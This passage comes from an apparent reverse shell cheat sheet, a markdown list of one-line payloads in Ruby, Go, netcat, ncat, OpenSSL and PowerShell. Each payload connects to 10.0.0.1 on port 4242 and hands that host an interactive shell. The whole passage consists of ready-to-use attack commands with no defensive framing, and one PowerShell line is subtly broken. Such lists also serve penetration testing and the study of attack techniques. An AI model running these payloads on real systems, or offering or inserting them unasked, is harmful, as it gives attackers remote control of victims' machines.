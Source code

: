 ### Windows only
* ```ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```{.Reverse_Shells_Code_Block}


## Golang
* ```echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go```{.Reverse_Shells_Code_Block}


## Netcat Traditional

* ```nc -e /bin/sh 10.0.0.1 4242```{.Reverse_Shells_Code_Block}

* ```nc -e /bin/bash 10.0.0.1 4242```{.Reverse_Shells_Code_Block}

* ```nc -c bash 10.0.0.1 4242```{.Reverse_Shells_Code_Block}

## Netcat OpenBsd

* ```rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f```{.Reverse_Shells_Code_Block}

## Netcat BusyBox

* ```rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f```{.Reverse_Shells_Code_Block}
 
## Ncat

* ```ncat 10.0.0.1 4242 -e /bin/bash```{.Reverse_Shells_Code_Block}

* ```ncat --udp 10.0.0.1 4242 -e /bin/bash```{.Reverse_Shells_Code_Block}

## OpenSSL

* ```user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s```{.Reverse_Shells_Code_Block}

## Powershell

* ```powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```{.Reverse_Shells_Code_Block}

* ```powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```{.Reverse_Shells_Code_Block}
